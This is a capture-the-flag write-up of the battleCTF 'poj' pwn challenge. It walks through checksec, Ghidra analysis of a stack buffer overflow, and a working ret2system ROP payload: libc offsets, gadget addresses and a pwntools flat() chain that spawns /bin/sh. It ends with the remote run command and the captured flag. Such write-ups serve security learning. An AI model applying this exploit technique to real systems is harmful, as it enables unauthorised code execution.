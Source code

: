 # challenge Name: Prog
![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security
`` pwn checkseck poj``
    ![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 not that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

    ![Poj_challenge](../images/poj_exec1.png)
     we have memory leak of write address

    # reverse engineering the program
after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

    ![main_function](../images/main_func_poj.png)
    ![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:
    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gdget  on the libc 
    ```
 # libc.so.6 write = 0xff4d0
libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 
libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 
libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"
pop_rdi_offset =  0x0000000000028215 # found with ropper 
ret_offset =  0x00000000000f35d8 # found with ropper

# Now calculate the PIEBASE
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit:
```
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003
b
```
    ![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
